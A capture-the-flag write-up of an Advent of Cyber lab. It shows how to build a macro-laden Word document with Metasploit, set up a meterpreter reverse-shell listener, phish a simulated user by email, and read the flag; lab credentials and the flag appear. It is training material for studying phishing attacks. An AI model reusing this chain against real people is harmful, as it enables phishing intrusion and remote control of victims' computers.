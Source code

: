 # (Day 10) - Advent of Cyber

## Creating the Malicious Document

Opening a terminal, we will use Metasploit framework to make our Microsoft document exploit. Using the command: `msfconsole`
Now we receive a Metasploit shell:

![[Pasted image 20241219150337.png]]

Now to obtain the exploit word document we need to run the following commands:

```
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST AttackBox_IP (e.g. '10.4.109.132')
set LPORT 8888
exploit
exit
```

Which will look like this:

![[Pasted image 20241219153006.png]]

#### Creating the Listener

Before we send the document to Marta we need to setup a listener to wait for connection to the IP and correct port. We will also use Metasploit framework, to do this we will run the following commands in the terminal:

```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.4.109.132
set LPORT 8888
exploit
```

## Emailing the Malicious Document

We will now head to the website to send emails with the URL http://10.10.110.147.

![[Pasted image 20241219153612.png]]

Now logging in using the following credentials

- Email: `info@socnas.thm`
- Password: `MerryPhishMas!`

We have access to the email client and we can compose and send an email to Marta:

![[Pasted image 20241219154120.png]]

Upon sending the email and waiting a little bit, we see that Marta opens the document because we receive the connection in the listener:

![[Pasted image 20241219154313.png]]

Now we have a shell and by heading to the following directory `C:\Users\Administrator\Desktop` we see the flag and we can print it out:
`THM{PHISHING_CHRISTMAS}`